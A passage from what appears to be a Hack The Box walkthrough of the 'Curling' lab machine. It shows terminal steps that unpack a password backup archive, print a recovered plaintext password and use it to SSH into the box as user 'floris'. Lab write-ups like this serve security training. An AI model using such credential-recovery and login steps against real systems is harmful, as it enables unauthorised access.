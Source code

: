 ```bash
┌──(kali㉿kali)-[~/htb]
└─$ ls password_backup*
password_backup.bz2  password_backup2      password_backup_orig
password_backup.gz   password_backup2.bz2


┌──(kali㉿kali)-[~/htb]
└─$ file password_backup2
password_backup2: POSIX tar archive (GNU)


┌──(kali㉿kali)-[~/htb]
└─$ mv password_backup2 password_backup.tar


┌──(kali㉿kali)-[~/htb]
└─$ tar -xvf password_backup.tar                            
password.txt


┌──(kali㉿kali)-[~/htb]
└─$ cat password.txt
5d<wdCbdZu)|hChXll
```

Let's try `ssh` connection as `floris`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh floris@10.10.10.150
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  2 20:12:21 UTC 2025

  System load:  0.01              Processes:            176
  Usage of /:   62.3% of 3.87GB   Users logged in:      0
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```
